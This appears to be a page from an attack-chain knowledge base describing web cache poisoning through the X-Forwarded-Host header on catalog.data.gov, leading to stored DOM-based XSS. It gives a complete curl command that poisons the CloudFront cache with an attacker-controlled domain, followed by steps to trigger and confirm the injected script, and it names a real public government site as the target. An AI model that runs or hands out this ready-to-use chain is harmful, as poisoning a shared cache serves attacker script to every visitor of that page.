

# Web Cache Poisoning via X-Forwarded-Host Leading to Stored DOM-based XSS on catalog.data.gov

Multi-stage attack chain demonstrating a complete attack workflow exploiting server trust in the X-Forwarded-Host header to poison the CloudFront cache, injecting malicious JSON that leads to DOM-based XSS execution on catalog.data.gov.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~2 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- Web platform with AWS CloudFront CDN
- Services: CloudFront caching
- Tech stack: JavaScript on client-side
- Network access: Public internet to catalog.data.gov

### Initial Access Requirements

- No credentials required
- Attacker must control a domain for hosting malicious JSON (e.g., portswigger-labs.net)
- Ability to send crafted HTTP requests

## Detailed Attack Procedures

### Step 1: Poison the CloudFront Cache
procedure: [[procedures/Poison-CloudFront-Cache-with-Malicious-X-Forwarded-Host]]

**Objective**: Inject a malicious X-Forwarded-Host header to alter the 'data-site-root' attribute in the response, poisoning the cache to serve unescaped JSON fetches from the attacker's domain.

**Instructions**: Use [[commands/curl-poison-cloudfront-cache]] to send a crafted GET request:

```bash
curl -i -s -k -X 'GET' -H 'Host: catalog.data.gov' -H 'Accept-Encoding: gzip, deflate' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)' -H 'x-forwarded-host: portswigger-labs.net/catalog.data.gov_json_xss/json.php?' -H 'Connection: close' 'https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6' > /dev/null
```

**Expected Output**: No visible output due to redirection, but the CloudFront cache is poisoned for the target URL.

**Success Indicators**:
- Cache poisoning confirmed by subsequent requests returning altered 'data-site-root'
- Response includes injected attribute pointing to attacker's domain

### Step 2: Visit the Poisoned Page
procedure: [[procedures/Trigger-DOM-based-XSS-by-Visiting-Poisoned-Page]]

**Objective**: Load the poisoned page in a browser to trigger JavaScript that fetches and injects unescaped JSON from the malicious endpoint.

**Instructions**: Navigate to the target URL in a web browser: https://catalog.data.gov/dataset/consumer-complaint-database?dontpoisoneveryone=6. The client-side JavaScript will use the poisoned 'data-site-root' to fetch JSON.

**Expected Output**: Page loads with altered content; after a delay, malicious JSON is fetched and injected into the DOM.

**Success Indicators**:
- Page source shows 'data-site-root' set to attacker's domain
- Network tab reveals fetch to malicious JSON endpoint

### Step 3: Observe XSS Execution
procedure: [[procedures/Execute-and-Verify-XSS-Payload]]

**Objective**: Verify the DOM-based XSS by observing the execution of injected JavaScript, such as an alert popup demonstrating arbitrary code execution.

**Instructions**: Wait a few seconds after loading the page; the injected SVG onload event will trigger the payload.

**Expected Output**: Alert box pops up with 'catalog.data.gov', confirming XSS execution and potential for defacement or further exploits.

**Success Indicators**:
- Alert dialog appears in the browser
- Console logs or DOM inspection shows injected script execution

## Attack Chain Summary

### Key Achievements

1. Successful CloudFront cache poisoning via unvalidated X-Forwarded-Host
2. Triggering of stored DOM-based XSS affecting multiple users
3. Demonstration of arbitrary JavaScript execution leading to site defacement

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
